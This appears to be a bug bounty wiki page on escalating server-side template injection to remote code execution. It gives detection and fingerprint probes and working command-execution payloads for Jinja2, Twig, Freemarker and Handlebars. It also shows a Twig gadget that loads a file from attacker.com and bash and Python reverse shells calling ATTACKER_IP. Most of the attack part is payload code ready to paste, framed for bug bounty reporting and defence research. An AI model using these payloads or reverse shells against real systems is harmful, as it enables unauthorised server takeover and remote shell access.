

> Source: https://bugbounty.info/Chains/SSTI-to-RCE

# SSTI to RCE

## Why This Chain Works

Template engines exist to interpolate variables. When attacker-controlled input reaches the template rendering context instead of being escaped before it gets there, the engine treats that input as template syntax. Every template engine has a way to reach the runtime environment from within a template - some through exposed globals, some through filter registration, some through reflection on the object model. The path from template context to OS command differs by engine but in every case it exists.

Related: [Server-Side Template Injection](../Attack-Surface/Web/SSTI), [File Upload to RCE](../Chains/File-Upload-to-RCE), [Remote Code Execution](../Attack-Surface/Web/RCE)

---

## Attack Flow



---

## Step-by-Step

### 1. Detect the Injection Point

Look for fields where the value is rendered back in context rather than displayed raw: email templates with preview, notification subjects, username fields that appear in welcome emails, error messages that echo back parameter values, PDF report generators.

**Polyglot detection probe:**

```text
49{7*7}a{*}b{{7*7}}${7*7}#{7*7}
```

Send this as the value. Then look at the response:

- If `343` appears anywhere - you have SSTI and can narrow the engine from context
- If `{7*7}` appears unchanged - likely no templating, or output-escaped
- If an error appears - check the error message for the engine name

### 2. Engine Fingerprinting

Narrow the engine with targeted probes:

```text
{{7*'7'}}    -> Jinja2 returns 7777777 | Twig returns 49
${7*7}       -> Freemarker / Spring EL
<%= 7*7 %>   -> ERB (Ruby)
#{7*7}       -> Pebble / Thymeleaf
```

Check the stack from `X-Powered-By`, `Server`, or error messages. A Python stack with Jinja2 returns `7777777` from `{{7*'7'}}`. Twig (PHP) returns `49`.

---

### 3. Jinja2 - Python

**Confirm:**

```python
{{7*7}}  ->  49
{{7*'7'}}  ->  7777777
```

**OS command via `os.popen`:**

```python
{{config.__class__.__init__.__globals__['os'].popen('id').read()}}
```

**Via subclasses (when globals is not directly accessible):**

```python
{{''.__class__.mro()[1].__subclasses__()[396]('id',shell=True,stdout=-1).communicate()[0].strip()}}
```

The subclass index for `subprocess.Popen` varies by Python version. Enumerate:

```python
{{''.__class__.mro()[1].__subclasses__()}}
```

Find the index of `subprocess.Popen` in the output, then:

```python
{{''.__class__.mro()[1].__subclasses__()[N]('id',shell=True,stdout=-1).communicate()[0].strip()}}
```

**Simpler if `request` is in scope (Flask):**

```python
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```

---

### 4. Twig - PHP

**Confirm:**

```php
{{7*7}}  ->  49
{{7*'7'}}  ->  49  (not 7777777 - this distinguishes from Jinja2)
```

**RCE via `registerUndefinedFilterCallback`:**

```twig
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
```

**Via `setCache` gadget (older Twig versions):**

```twig
{{_self.env.setCache("ftp://attacker.com/payload.php")}}{{_self.env.loadTemplate("shell")}}
```

**Simpler PHP system call if Twig `sandbox` is off:**

```twig
{{["id"]|filter("system")}}
```

---

### 5. Freemarker - Java

**Confirm:**

```
${7*7}  ->  49
```

**RCE via `freemarker.template.utility.Execute`:**

```
<#assign ex="freemarker.template.utility.Execute"?new()>${ex("id")}
```

**Via `ObjectWrapper` (newer Freemarker):**

```
${product.class.forName("java.lang.Runtime").getMethod("exec","".class).invoke(product.class.forName("java.lang.Runtime").getMethod("getRuntime").invoke(null),"id")}
```

---

### 6. Handlebars - Node.js

Handlebars sandboxes by default but has known bypasses:

```javascript
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').execSync('id').toString();"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

---

### 7. Get a Shell

Once `id` executes, get a reverse shell:

```bash
# Bash reverse shell via Jinja2:
{{config.__class__.__init__.__globals__['os'].popen('bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1').read()}}
 
# Python reverse shell:
{{config.__class__.__init__.__globals__['os'].popen('python3 -c \'import socket,subprocess,os;s=socket.socket();s.connect(("ATTACKER_IP",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])\'').read()}}
```

---

## PoC Template for Report

```text
1. Injection point: POST /notifications/preview with body {"subject":"PAYLOAD"}
2. Probe: {"subject":"{{7*7}}"} -> Response contains "49" in preview text
3. Engine confirmation: {"subject":"{{7*'7'}}"} -> "7777777" confirms Jinja2
4. RCE payload:
   {"subject":"{{config.__class__.__init__.__globals__['os'].popen('id').read()}}"}
   Response: "uid=33(www-data) gid=33(www-data) groups=33(www-data)"
5. Hostname: {"subject":"{{config.__class__.__init__.__globals__['os'].popen('hostname').read()}}"}
   Response: "prod-notifications-01"
Screenshots of all responses attached.
```

---

## Public Reports

- SSTI in Jinja2 on Uber's email template preview leading to RCE - [HackerOne #125980](https://hackerone.com/reports/125980)
- Server-side template injection on Shopify via Liquid template - [HackerOne #1463498](https://hackerone.com/reports/1463498)
- SSTI in Phabricator leading to remote code execution - [HackerOne #683487](https://hackerone.com/reports/683487)
- Freemarker SSTI to RCE on a DoD asset - [HackerOne #1092098](https://hackerone.com/reports/1092098)

---

## Reporting Notes

Show the detection probe, the engine fingerprint step, and the RCE payload as three distinct requests. Include `id`, `hostname`, and `uname -a` outputs to paint a complete picture of the execution context. Name the engine in the title. If the payload requires URL encoding or specific headers, include the raw HTTP request from Burp. Programs that see an actual shell output in the PoC almost never dispute severity.
